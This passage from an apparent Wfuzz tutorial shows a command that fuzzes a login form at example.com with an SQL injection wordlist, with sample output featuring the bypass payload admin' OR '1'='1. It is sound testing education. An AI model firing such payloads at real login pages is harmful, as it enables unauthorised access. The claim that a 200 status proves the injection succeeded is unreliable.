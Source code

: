 #### Example 3: Testing for SQL Injection

To test for SQL injection vulnerabilities, you can use:

```bash
wfuzz -c -z file,/usr/share/wfuzz/Injections/SQL.txt -d "username=admin&password=FUZZ" -u http://example.com/login
```

**Expected Output**:
```
********************************************************
* Wfuzz 2.4.6 - The Web Fuzzer *
********************************************************
Target: http://example.com/login
Total requests: 10
========================================================================
ID Response Lines Word Chars Payload
========================================================================
000000003: 200 20 L 2904 W 227381 Ch "admin' OR '1'='1"
```
This indicates that the SQL injection payload `admin' OR '1'='1'` was successful, returning a 200 status code [[3]](https://scottc130.medium.com/how-to-use-wfuzz-to-fuzz-web-applications-8594c11d59d1).

### Conclusion

Wfuzz is a versatile tool for web application testing, allowing users to automate the discovery of vulnerabilities efficiently. By using various payloads and options, it can help identify security weaknesses in web applications.

---
Learn more:
1. [wfuzz | Kali Linux Tools](https://www.kali.org/tools/wfuzz/)
2. [How to use Wfuzz to find web application vulnerabilities | TechTarget](https://www.techtarget.com/searchsecurity/feature/How-to-use-Wfuzz-to-find-web-application-vulnerabilities)
3. [How to use Wfuzz to Fuzz Web Applications | by Scott Cosentino | Medium](https://scottc130.medium.com/how-to-use-wfuzz-to-fuzz-web-applications-8594c11d59d1)

                                        
